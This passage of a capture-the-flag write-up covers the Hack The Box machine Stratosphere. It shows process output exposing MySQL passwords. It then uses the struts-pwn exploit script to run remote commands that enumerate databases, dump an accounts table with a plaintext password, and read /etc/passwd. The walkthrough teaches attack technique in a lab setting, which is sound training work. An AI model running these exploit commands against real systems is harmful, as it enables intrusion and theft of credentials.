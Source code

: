 Next we can check the process that is running with `ps aux` 

```
tomcat8   3062  0.0  0.1  30432  2596 ?        S    09:07   0:00 mysql -u admin -p admin
tomcat8   3072  0.0  0.1  30432  2668 ?        S    09:08   0:00 mysql -u admin -p admin
tomcat8   3073  0.0  0.1  30432  2576 ?        S    09:08   0:00 mysql -u admin -p admin
tomcat8   3075  0.0  0.1  30432  2624 ?        S    09:09   0:00 mysql -u admin -p admin
tomcat8   3110  0.0  0.3  26928  8176 ?        S    09:15   0:00 python -v
tomcat8   3111  0.0  0.1  30432  2656 ?        S    09:15   0:00 mysql -u ssn_admin -p AWs64@on*& -D ssn
tomcat8   3502  0.0  0.4  26928  8280 ?        S    09:38   0:00 python3
tomcat8   3505  0.0  0.1  19624  3212 ?        S    09:38   0:00 bash
tomcat8   3508  0.0  0.1  19624  3236 ?        S    09:38   0:00 /bin/bash
```

> Note that the mysql password for admin is available. Which means we can use mysql to do some db enumeration

### Database Enumeration

```
python struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'mysql -u admin -padmin -e "show databases"'

Database
information_schema
users

root@kali:~/Desktop/HTB/Stratosphere# python struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'mysql -u admin -padmin -D users -e "show tables"'

Tables_in_users
accounts

root@kali:~/Desktop/HTB/Stratosphere# python struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'mysql -u admin -padmin -D users -e "select * from accounts"'

fullName	password	username
Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard

```



With access to these `credential` so what else can we do? We will need more information about the system.

So let's get the `/etc/passwd` to see which user account is there

```
root:x:0:0:root:/root:/bin/bash
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
tomcat8:x:115:119::/var/lib/tomcat8:/bin/bash
```

> Note that we should only care about user with /bin/bash as they are valid accounts to be able to SSH in

